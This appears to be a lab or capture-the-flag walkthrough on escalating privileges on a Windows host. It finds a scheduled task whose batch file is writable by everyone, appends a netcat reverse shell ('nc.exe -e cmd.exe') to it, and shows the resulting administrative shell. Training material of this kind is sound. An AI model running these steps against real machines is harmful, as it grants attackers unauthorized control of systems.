 ## Connect to WRK2
- [[Connect to WRK2 via RDP]]
- Open a command shell.
- Look at the "C:\Users\laura.wood\Downloads>" directory.
- There's a nc.exe file. (Netcat)
	- If we manage to find some service or application that is running in the machine with administrator or system privileges, we might be able to execute netcat with administrative privileges, gaining an elevated administrative shell.
	- One quick way of escalating privileges inside a machine is through a misconfigured scheduled task, especially when it is using a binary or batch file that we can modify.

## List of tasks
- By using the command schtasks /query /fo csv /v | findstr “SYSTEM > tasks.csv”,we are able to forward a list of several tasks, to a CSV file, that run with administrative privileges (the /fo csv will print the text in a CSV format).
```
schtasks /query /fo csv /v | findstr “SYSTEM > tasks.csv”
```

> Based on the output, most of the tasks run from the Windows directory, which normally means that those tasks are well configured. A quick search into the CSV reveals that a certain task runs from the following file (**C:\SYNC\sync.bat**):


C:\Users\laura.wood\Downloads> schtasks /query /fo csv /v | findstr "SYSTEM > tasks.csv"
"WRK2","\FULLSYNC","3/14/2024 6:59:36 PM","Ready","Interactive/Background","3/14/2024 6:54:36 PM","1","CORP\Administrator","**C:\SYNC\sync.bat** ","N/A","N/A","Enabled","Disabled","Stop On Battery Mode, No Start On Batteries","SYSTEM","Disabled","72:00:00","Scheduling data is not available in this format.","One Time Only, Minute ","12:19:36 PM","4/2/2023","N/A","N/A","N/A","0 Hour(s), 5 Minute(s)","None","Disabled","Disabled"

## Query for the taskname
Query for the taskname, in order to get more information regarding the schedule task:
```
schtasks /query /fo list /tn FULLSYNC /v
```
Folder: \
HostName:                             WRK2
TaskName:                             \FULLSYNC
Next Run Time:                       3/14/2024 7:19:36 PM
Status:                                    Ready
Logon Mode:                          Interactive/Background
Last Run Time:                       3/14/2024 7:14:36 PM
Last Result:                            1
Author:                                   CORP\Administrator
Task To Run:                          C:\SYNC\sync.bat
Start In:                                  N/A
Comment:                              N/A
Scheduled Task State:         Enabled
Idle Time:                              Disabled
Power Management:            Stop On Battery Mode, No Start On Batteries
Run As User:                         SYSTEM
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                    One Time Only, Minute
Start Time:                           12:19:36 PM
Start Date:                           4/2/2023
End Date:                             N/A
Days:                                    N/A
Months:                               N/A
Repeat: Every:                     0 Hour(s), 5 Minute(s)
Repeat: Until: Time:            None
Repeat: Until: Duration:      Disabled
Repeat: Stop If Still Running:        Disabled

> FULLSYNC scheduled task runs every 5 minutes.

## Check the permissions of the file "C:\SYNC\sync.bat"
```
icacls C:\SYNC\sync.bat
```
Everyone:(F)
BUILTIN\Users:(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Administrators:(I)(F)
BUILTIN\Users:(I)(RX)


> - Full access on the sync.bat file.

## Set up a listener with the previously found netcat

With this information, we know that we can set up a listener with the previously found netcat executable, and edit the task to connect with the same executable with administrative privileges, receiving an elevated reverse shell:
![[INITIAL ACTIVE DIRECTORY ACCESS/Untitled Diagram.svg]]```
nc -lnvp 4444
```
listening on [any] 4444 ...

## Edit the sync.bat file

Path: C:\SYNC

Add the following code:
`C:\Users\laura.wood\Downloads\nc.exe -e cmd.exe 127.0.0.1 4444`
`copy C:\Windows\Temp \\s3.corp.thereserve.loc\backups\`

> After a couple of minutes (5 at most) you should receive an administrative reverse shell.
## Execute the task to force a reverse shell
If you want to execute the task immediately, run the following command.
`
```
schtasks /run /tn FULLSYNC
```

SUCCESS: Attempted to run the scheduled task "FULLSYNC". 

On the first command shell you'll see the following output.

listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 54255
Microsoft Windows [Version 10.0.17763.4252]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

[[Flag-4 Administrative access to Corporate Division Tier 2 Infrastructure]]


